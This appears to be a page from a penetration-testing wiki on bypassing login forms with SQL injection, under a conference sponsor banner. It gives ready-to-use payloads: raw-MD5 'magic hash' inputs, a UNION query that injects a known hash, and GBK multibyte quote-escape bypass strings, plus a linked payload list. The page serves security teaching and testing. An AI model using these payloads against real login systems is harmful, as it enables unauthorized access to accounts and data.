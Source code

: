 

<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>

​​​​​[**RootedCON**](https://www.rootedcon.com/) is the most relevant cybersecurity event in **Spain** and one of the most important in **Europe**. With **the mission of promoting technical knowledge**, this congress is a boiling meeting point for technology and cybersecurity professionals in every discipline.

{% embed url="https://www.rootedcon.com/" %}

## Authentication bypass

List to try to bypass the login functionality:

{% content-ref url="../login-bypass/sql-login-bypass.md" %}
[sql-login-bypass.md](../login-bypass/sql-login-bypass.md)
{% endcontent-ref %}

### Raw hash authentication Bypass 

```sql
"SELECT * FROM admin WHERE pass = '".md5($password,true)."'"
```

This query showcases a vulnerability when MD5 is used with true for raw output in authentication checks, making the system susceptible to SQL injection. Attackers can exploit this by crafting inputs that, when hashed, produce unexpected SQL command parts, leading to unauthorized access.

```sql
md5("ffifdyop", true) = 'or'6�]��!r,��b�
sha1("3fDf ", true) = Q�u'='�@�[�t�- o��_-!
```

### Injected hash authentication Bypass

```sql
admin' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055'
```

**Recommended list**:

You should use as username each line of the list and as password always: _**Pass1234.**_\
_(This payloads are also included in the big list mentioned at the beginning of this section)_

{% file src="../../.gitbook/assets/sqli-hashbypass.txt" %}

### GBK Authentication Bypass

IF ' is being scaped you can use %A8%27, and when ' gets scaped it will be created: 0xA80x5c0x27 (_╘'_)

```sql
%A8%27 OR 1=1;-- 2
%8C%A8%27 OR 1=1-- 2
%bf' or 1=1 -- --
```
